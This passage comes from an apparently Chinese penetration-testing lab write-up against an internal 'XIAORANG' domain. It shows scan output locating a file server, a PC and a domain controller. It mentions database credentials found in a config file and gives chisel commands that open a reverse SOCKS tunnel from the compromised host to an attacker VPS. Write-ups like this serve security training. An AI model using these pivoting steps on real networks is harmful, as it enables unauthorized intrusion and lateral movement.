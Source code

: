 ```bash
[*] NetBios 172.22.60.42    XIAORANG\FILESERVER           
[*] NetInfo 
[*]172.22.60.15
   [->]PC1
   [->]172.22.60.15
   [->]169.254.39.51
[*] NetBios 172.22.60.15    XIAORANG\PC1                  
[*] NetBios 172.22.60.8     [+] DC:XIAORANG\DC             
[*] NetInfo 
[*]172.22.60.8
   [->]DC
   [->]172.22.60.8
   [->]169.254.222.191
[*] WebTitle http://172.22.60.52       code:200 len:5867   title:霄壤社区
```

同时发现一个 Config 文件，里面有数据库账密

## 代理搭建

```bash
VPS:./chisel server -p 7000 --reverse
靶机:./chisel client VPS:7000 R:0.0.0.0:7001:socks
```

## 数据库连接

在我们登录网页后台时就出现用户名，且以`xiaorang.lab`结尾，说明可能有一部分是域用户

[![](assets/1706846898-dd0284a2a33369f4e6817b3212aea0db.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214008-3f834f40-c03e-1.png)

但是不太容易导出，我们正好看到了数据库配置文件

